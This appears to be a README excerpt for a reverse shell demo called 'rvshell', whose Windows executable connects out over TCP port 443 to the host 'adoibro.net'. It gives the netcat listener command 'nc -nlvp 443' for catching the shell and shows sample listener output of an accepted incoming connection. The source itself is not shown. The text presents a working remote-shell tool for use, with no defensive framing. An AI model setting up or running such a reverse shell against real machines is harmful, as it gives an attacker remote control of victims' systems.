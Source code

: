 ## Demo rvshell

1. Record in `hosts` file is requried to resolve `adoibro.net` (TCP connection over port 443 will be established)
2. Executable provided for Windows platform.
3. You can build executable from source for any platform as you wish.

Assuming you run TCP server listening on port 443 with `nc`, example of running TCP listener on destination remote host:
```
nc -nlvp 443
```

When executable is run you should see the following message on destination server:
```
root@localhost:~# nc -nvlp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from [192.168.10.1] port 443 [tcp/*] accepted (family 2, sport 54604)
Following the white rabbit...
```
